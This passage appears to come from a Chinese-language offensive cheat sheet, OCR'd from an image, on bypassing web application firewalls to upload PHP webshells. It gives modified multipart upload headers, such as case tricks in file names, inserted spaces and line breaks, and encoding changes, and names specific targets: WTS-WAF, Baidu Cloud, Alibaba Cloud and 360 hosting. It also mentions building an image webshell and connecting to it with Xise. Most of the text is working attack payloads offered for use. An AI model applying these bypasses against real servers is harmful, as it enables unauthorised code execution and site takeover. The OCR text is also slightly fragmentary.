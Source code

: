 7.HTTP header 属性名称绕过

```
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
删除掉 ontent-Type: image/jpeg 只留下 c，将.php 加 c 后面即可，但是要注意额，双引号要跟着 c.php". 
```

8.等效替换绕过

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary 后面加入空格。 
```

9.修改编码绕过

```
使用 UTF-16、Unicode、双 URL 编码等等 
```

#### WTS-WAF 绕过上传

```
原内容：
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
添加回车
Content-Disposition: form-data; name="up_picture"; filename="xss.php" 
```

#### 百度云上传绕过

```
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测 php 是过了的，Php 就能过，或者 PHP，一句话自己合成图片马用 Xise 连接即可。
Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php" 
```

#### 阿里云上传绕过

```
源代码：
Content-Disposition: form-data; name="img_crop_file"; filename="1.jpg .Php"Content-Type: image/jpeg
修改如下：
Content-Disposition: form-data; name="img_crop_file"; filename="1.php"
没错，将=号这里回车删除掉 Content-Type: image/jpeg 即可绕过。 
```

#### 360 主机上传绕过

```
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content- Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
Content-Disposition 修改为 Content-空格 Disposition 
```
